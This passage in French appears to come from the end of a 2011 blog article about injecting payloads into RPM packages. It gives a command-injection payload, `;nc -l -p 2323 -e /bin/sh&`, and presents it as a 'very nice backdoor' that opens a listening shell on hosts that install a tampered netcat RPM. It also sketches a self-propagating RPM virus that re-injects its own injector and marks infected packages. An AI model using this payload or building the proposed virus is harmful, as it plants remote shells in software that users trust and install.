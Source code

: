 :)  
On obtient une très belle backdoor (dans le cas du RPM de netcat) si on fixe le payload à `;nc -l -p 2323 -e /bin/sh&`  

Il doit être possible de faire un virus RPM, en injectant l'injecteur lui-même (après quelques retouches) et en fixant l'interpréteur à python. En utilisant le champ réservé vu au tout début de l'article, on pourrait aussi marquer les RPM déjà infectés.

*Published January 10 2011 at 06:47*
